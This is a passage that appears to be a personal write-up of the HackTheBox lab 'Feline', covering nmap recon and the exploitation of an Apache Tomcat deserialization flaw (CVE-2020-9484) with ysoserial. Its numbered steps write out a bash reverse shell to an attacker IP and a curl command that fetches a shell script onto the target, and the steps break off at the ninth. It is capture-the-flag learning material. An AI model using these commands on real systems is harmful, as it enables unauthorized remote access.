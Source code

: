 ```yaml
---
title: Lab - HTB - Hard - Feline (HackyHour5)
date: 2020-11-13 11:11:11 -0400
description: HackTheBox
categories: [Lab, HackTheBox]
# img: /assets/img/sample/rabbit.png
tags: [Lab, HackTheBox]
---
```


- [Lab - HTB - Hard - Feline (HackyHour5)](#lab---htb---hard---feline-hackyhour5)
  - [Initial：](#initial)
    - [Recon NMAP](#recon-nmap)
    - [CVE in 2020](#cve-in-2020)
  - [Gain access to shell](#gain-access-to-shell)
    - [Port 8080](#port-8080)
    - [burpsuite the request](#burpsuite-the-request)
    - [Apache Tomcat 9.0.27 vulnerability CVE - 2020 - 9484](#apache-tomcat-9027-vulnerability-cve---2020---9484)
    - [use ysoserial to serialize the file](#use-ysoserial-to-serialize-the-file)
  - [Access extension](#access-extension)
    - [user Tomcat](#user-tomcat)
    - [cve-2020-11651 PoC](#cve-2020-11651-poc)

- ref
  - [na5c4r](https://www.youtube.com/channel/UCh35oGf3_djXJbJVZ1KJ40g)
  - [masahiro331/CVE-2020-9484](https://github.com/masahiro331/CVE-2020-9484)
  - [Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)
  - [CVE-2020-9484 Tomcat RCE漏洞分析](https://mp.weixin.qq.com/s/OGdHSwqydiDqe-BUkheTGg)
  - [IdealDreamLast/CVE-2020-9484](https://github.com/IdealDreamLast/CVE-2020-9484)
  - [blog](https://estamelgg.github.io/posts/Feline/)


---

# Lab - HTB - Hard - Feline (HackyHour5)

![feline](https://i.imgur.com/DPdHOxS.png)
> Machine: Feline


```
1. use nmap to find the open port
2. find the open port 8080
3. investiate the webpage, it allows upload file
4. burpsuite the request
   - able to diy the file name
   - upload file content was been shown in post request
   - bad deserialize
5. find the CVE - 2020 - 9484
6. resend the request with empty filename
   - find the upload page: /upload.jsp
   - find the upload path: /opt/samples/uploads

7. create playload.sh
   - bash -c "bash -i >& /dev/tcp/10.10.15.118(your ip)/2424 0>&1"
   - (reverse shell code)

8. create uploadfile.session
   - curl http://10.10.15.118(your ip)/play1.sh -o /tmp/targetplay.sh
   - (upload the reverse shell code and store ie in /tmp/targetplay.sh)

9. create executefile.session
```